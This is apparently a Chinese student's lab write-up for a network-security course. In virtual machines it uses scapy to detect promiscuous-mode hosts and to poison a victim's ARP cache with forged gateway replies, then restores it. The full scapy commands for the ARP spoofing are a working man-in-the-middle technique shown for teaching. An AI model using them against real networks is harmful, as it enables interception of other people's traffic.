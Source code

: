 # 第四章实验：网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:0b:04:81 / eth0
  - 172.16.111.144
- 受害者主机：Kali
  - 08:00:27:52:c6:b2/ eth0
  - 172.16.111.108
- 网关：Debian
  - 08:00:27:10:ea:af/ enp0s9
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy、安装 python3
  
  `sudo apt update && sudo apt install python3 python3-pip`

   `pip3 install scapy[complete]`

   ![scapy安装成功展示](images/scapy_install_sucess.png)

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用 ( 这里应该没有出现 PROMISC 字符串)

  `ip link show eth0`

  ![实验前检查混杂模式状态](images/check_promisc.png)

- 在攻击者主机上开启 scapy

  `sudo scapy`


- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.108")`

 

-  回到受害者主机上手动开启该网卡的「混杂模式」

   `sudo ip link set eth0 promisc on`

- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC 
  
  `ip link show eth0`
 
 ![再次检查混杂模式状态](images/recheck_promisc.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.108")`

 - 两次pkt结果对比
   ![两次pkt结果对比](images/pkt_result_compare.png)

- 在受害者主机上手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存
受害者主机初始ARP缓存信息
 ![受害者初始ARP](images/init_arp.png)
以下代码在攻击者主机上的 `scapy` 交互式终端完成


- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  
  `arpbroadcast.show()`

- 发送这个 ARP 广播请求
 
  `recved = srp(arpbroadcast, timeout=2)`

  ![在攻击者主机上构造ARP结果展示](images/attacker_arp.png)



- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

  `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108",hwdst="08:00:27:0b:04:81")`

- 发送上述伪造的 ARP 响应数据包到受害者主机

  `sendp(arpspoofed)`

![发送伪造的 ARP 响应数据包到受害者主机](images/fake_arp.png)
  

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

`ip neigh`

![接受伪造ARP的受害者主机ARP缓存表](images/changed_arp.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
 
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")`
 
    `sendp(restorepkt1, count=100, inter=0.2)`

![伪造网关ARP](images/fake_gateway_arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
 
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  `ip neigh`

![查看恢复的受害者主机ARP缓存表](images/recover_arp.png)

## 思考与反思
- 实验相对简单，做完实验想尝试直接在攻击者主机命令行里利arpspoof -i eth0 -t 172.16.111.108 172.16.111.1实现一下ARP攻击不能上网，但在kali中一直报错：找不到arpspoof。但该虚拟机已装有arpspoof,应该猜测是更新问题，需要执行sudo apt-install update && sudo apt-install upgrade.但依旧没解决问题==
 
 ![arpspoof_install_wrong](images/extra_wrong.png)
## 参考
- [黄药师课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)